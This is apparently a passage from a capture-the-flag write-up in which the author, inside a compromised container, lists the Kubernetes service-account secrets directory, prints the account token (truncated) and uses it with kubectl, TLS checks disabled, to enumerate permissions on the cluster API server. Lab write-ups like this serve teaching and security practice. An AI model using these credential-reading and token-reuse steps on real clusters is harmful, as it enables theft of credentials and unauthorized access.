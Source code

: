 <br>

```bash
ls -lah /var/run/secrets/kubernetes.io
total 8
drwxr-xr-x    3 root     root        4.0K Aug 11 xx:xx .
drwxr-xr-x    3 root     root        4.0K Aug 11 xx:xx ..
drwxrwxrwt    3 root     root         140 Aug 11 xx:xx serviceaccount
```

<br>

```bash
ls -lah /run/secrets/kubernetes.io/serviceaccount/
total 4
drwxrwxrwt    3 root     root         140 Aug 11 xx:xx .
drwxr-xr-x    3 root     root        4.0K Aug 11 xx:xx ..
drwxr-xr-x    2 root     root         100 Aug 11 xx:xx ..2025_08_11_xx_xx_xx.130133139
lrwxrwxrwx    1 root     root          31 Aug 11 xx:xx ..data -> ..2025_08_11_xx_xx_xx.130133139
lrwxrwxrwx    1 root     root          13 Aug 11 xx:xx ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root          16 Aug 11 xx:xx namespace -> ..data/namespace
lrwxrwxrwx    1 root     root          12 Aug 11 xx:xx token -> ..data/token
```

<br>

```bash
ls -lah /var/run/secrets/kubernetes.io/serviceaccount
total 4
drwxrwxrwt    3 root     root         140 Aug 11 23:03 .
drwxr-xr-x    3 root     root        4.0K Aug 11 23:03 ..
drwxr-xr-x    2 root     root         100 Aug 11 23:03 ..2025_08_11_xx_xx_xx.130133139
lrwxrwxrwx    1 root     root          31 Aug 11 23:03 ..data -> ..2025_08_11_xx_xx_xx.130133139
lrwxrwxrwx    1 root     root          13 Aug 11 23:03 ca.crt -> ..data/ca.crt
lrwxrwxrwx    1 root     root          16 Aug 11 23:03 namespace -> ..data/namespace
lrwxrwxrwx    1 root     root          12 Aug 11 23:03 token -> ..data/token
```

<br>
<h3>token</h3>

```bash
:~/PalsForLife#  cat token
eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w
```

<br>
<h3>kubectl</h3>

```bash
:~/PalsForLife# snap install kubectl --classic
```

<br>

```bash
:~/PalsForLife# kubectl --server https://xx.xxx.xx.xxx:6443 --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6Iky...jkHFv3vza54WS9w' --insecure-skip-tls-verify auth can-i --list
```

